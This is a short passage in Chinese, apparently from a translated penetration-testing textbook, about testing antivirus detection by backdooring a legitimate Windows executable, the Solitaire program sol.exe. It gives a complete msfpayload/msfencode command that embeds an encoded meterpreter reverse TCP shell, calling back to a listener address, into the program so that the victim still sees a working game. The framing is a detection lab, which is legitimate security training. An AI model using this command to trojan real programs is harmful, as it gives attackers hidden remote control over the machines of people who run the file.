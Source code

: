 ![Obfuscation and encoding](img/477-1_12_51.jpg)

我们将使用的最后一种技术来查看针对它的检测能力是可执行文件中的后门概念。我们喜欢的是，我们可以将任何合法的可执行文件作为后门，当用户运行它时，他们会向我们发送一个 shell。我们将用于本实验的程序是`sol.exe`，这是纸牌程序。我们将使用其中一个编码器，但在此之前，我们有从 Windows 机器复制原始`sol.exe`文件，并将其放置在 templates 文件夹中，如以下屏幕截图所示：

![Obfuscation and encoding](img/477-1_12_52.jpg)

一旦文件位于正确的位置，我们将在可执行文件中创建后门，并且我们将再次使用`msfpayload`和`msfencode`的组合。输入以下命令：

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.177.170 LPORT=443 R | msfencode -t exe -x sol.exe -k -o sol_bdoor.exe -e x86/shikata_ga_nai -c 3

```

此命令输出的示例如以下屏幕截图所示：

![Obfuscation and encoding](img/477-1_12_53.jpg)
